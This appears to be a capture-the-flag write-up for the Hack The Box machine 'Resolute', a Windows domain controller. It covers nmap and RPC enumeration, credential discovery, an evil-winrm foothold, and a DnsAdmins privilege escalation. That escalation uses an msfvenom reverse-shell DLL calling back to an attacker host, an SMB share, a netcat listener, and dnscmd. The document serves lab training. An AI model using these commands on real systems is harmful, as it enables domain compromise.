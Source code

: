 * Resolute
** Enumeration
*** meta
# Nmap 7.80 scan initiated Sat May  9 20:02:04 2020 as: nmap -Pn -sC -sV -oA logs/nmap 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.028s latency).
Not shown: 989 closed ports
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
*** 53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
~dig -x $TARGET @$TARGET doesn't give a dns listing for the reverse lookup
*** 88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-05-09 19:12:27Z)
*** 135/tcp  open  msrpc        Microsoft Windows RPC
~rpcclient -U "" -N $TARGET~ *does* enumerate the domain users!
but running
~GetNPUsers.py megabank/$user -request -no-pass -dc-ip $TARGET~
against each user in that list shows no kerberos pre-auth :(
~rpcclient -U "" -N $TARGET -c "queryuser $user"~ for each user eventually turns up a password in a description
*** 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
*** 389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
*** 445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
~smbclient -L $TARGET~ doesn't list any shares :(
*** 464/tcp  open  kpasswd5?
*** 593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
*** 636/tcp  open  tcpwrapped
*** 3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
*** 3269/tcp open  tcpwrapped
** Foothold
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
~enum4linux~ doesn't help much, but does reveal the domain name: ~megabank~
*evil-winrm* with user melanie but with marko's default password provides the foothold
USER: 0c3be45fcfe249796ccbee8d3a978540

** Escalation

Run winPEASany -- not much there

Poking around the C drive -- use this PowerShell helper function to show hidden files:

#+BEGIN_SRC powershell
function la {Param($path = ".") dir $path -Force}
#+END_SRC

Found a powershell transcript with a password at: 
~C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt~

Now got ~ryan~, found one file about reverting system changes.
Run winPEAS

Check ~whoami /groups~ as well as ~whoami /priv~: ryan is a member of ~DnsAdmins~
https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2

That guide works pretty much as-is, but here are the key commands:
attack: ~msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.100 LPORT=4242 -f dll > smb/privesc32.dll~
attack: ~sudo $HOME/.local/bin/smbserver.py frenata smb~
attack: ~nc -lvnp 4242~
server: ~dnscmd resolute.megabank.local /config /serverlevelplugindll \\10.10.16.100\frenata\privesc.dll~
server: ~& sc.exe \\resolute.megabank.local stop dns~
server: ~& sc.exe \\resolute.megabank.local start dns~
attack: ~whoami~

other relevant refs:
https://netsec.ws/?p=331
https://ss64.com/nt/sc.html
